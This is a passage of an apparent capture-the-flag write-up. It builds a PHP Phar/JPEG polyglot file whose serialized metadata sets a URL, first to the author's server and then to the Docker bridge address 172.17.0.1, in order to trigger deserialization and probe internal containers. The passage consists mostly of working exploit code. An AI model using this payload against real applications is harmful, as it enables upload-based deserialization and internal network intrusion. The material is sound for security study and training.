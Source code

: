 ```

class MainClass {}
$object = new MainClass;
$object->url = 'http://my_server_ip';
$phar->setMetadata($object);
$phar->stopBuffering();

rename("test.phar","fake_iamge.jpg");
?>
```

And yes if we test locally it works

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52181942-0c1b5000-27f8-11e9-8110-6a42cbe73a87.png"></p>

its valid image file and valid phar file at the same time :)  **step 1 done**

Next step :), need to gather internal information, Admin already mention its about container (docker)

So need to check docker default subnet and see maybe there is hidden App there !

```
When you install docker, by default it will create a bridged interface docker0 with a 172.17.0.0/16 subnet for container networking
```
Means need to get which one will get us some result !

Start by **http://172.17.0.1** as url

```
<?php
$jpeg_header_size =
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
```